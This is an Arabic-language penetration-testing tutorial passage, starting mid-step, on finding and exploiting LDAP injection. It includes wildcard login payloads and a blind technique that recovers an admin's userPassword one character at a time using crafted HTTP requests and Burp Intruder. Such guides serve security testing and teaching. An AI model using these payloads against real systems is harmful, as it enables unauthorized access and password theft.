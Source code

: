        username=admin*&password=anything
       ```
  5. إذا أعادت الاستجابة نتائج (مثل "User found" أو صفحة مختلفة)، فهذا يؤكد وجود ثغرة LDAP Injection.

- **النتيجة المتوقعة**:
  - الاستجابة لـ `username=*` تعيد رمز 200 أو نصًا مثل "Multiple users found"، مما يشير إلى أن `*` يطابق جميع المستخدمين.
  - الاستجابة لـ `admin*` تعيد "User found"، مما يؤكد أن التطبيق يمرر المدخلات إلى استعلام LDAP دون تصفية.
- **الأوامر/الإجراءات**:
  - في Burp Suite Repeater، أرسل الطلبات أعلاه.
  - سجّل الاستجابات (مثل رمز الحالة، طول الاستجابة، أو النص) لتحديد التغييرات.

---

### الخطوة 2: اختبار الاستغلال الأعمى (Blind Exploitation)
**الهدف**: تخمين بيانات (مثل كلمات المرور أو أسماء المستخدمين) حرفًا بحرفًا بناءً على استجابات التطبيق.

**مثال عملي**:
- **السيناريو**: لاحظت أن إدخال `*` في حقل البحث (`http://example.com?action=dir&search=`) يعيد نتائج، مما يؤكد LDAP Injection. تريد تخمين كلمة مرور مستخدم `admin`.
- **الأدوات**: Burp Suite Repeater أو Intruder.
- **الإجراء**:
  1. اختبر استعلامًا لتخمين الحرف الأول من `userPassword`:
     - Search: `admin*)(userPassword=A*`
     - طلب:
       ```
       GET /action=dir&search=admin*)(userPassword=A* HTTP/1.1
       Host: example.com
       ```
  2. كرر لأحرف أخرى (`B*`, `C*`, ..., `Z*`) باستخدام Burp Intruder:
     - في Intruder، اضبط الموضع إلى `userPassword=<payload>*`.
     - استخدم قائمة أحرف: `A,B,C,...,Z,a,b,c,...,z,0,1,...,9`.
     - أرسل الطلبات وراقب الاستجابات.
  3. إذا أعادت `userPassword=M*` استجابة إيجابية (مثل نص "Result found" أو رمز 200)، فالحرف الأول هو `M`.
  4. اختبر الحرف الثاني:
     - Search: `admin*)(userPassword=MA*`
     - طلب:
       ```
       GET /action=dir&search=admin*)(userPassword=MA* HTTP/1.1
       Host: example.com
       ```
  5. كرر حتى تستخلص القيمة الكاملة (مثل `MYKE`).

- **النتيجة المتوقعة**:
  - `userPassword=M*` يعيد رمز 200 ونص "Result found".
  - `userPassword=MA*` يعيد نفس الاستجابة، مما يؤكد الحرف الثاني `A`.
  - بعد عدة محاولات، تحصل على `MYKE` ككلمة المرور.
- **الأوامر/الإجراءات**:
  - في Burp Intruder، استخدم قائمة أحرف (`A-Z`, `a-z`, `0-9`) واضبط الموضع:
    ```
    admin*)(userPassword=§A§*)
    ```
  - راجع الاستجابات لتحديد الحرف الصحيح بناءً على طول الاستجابة أو النص.

---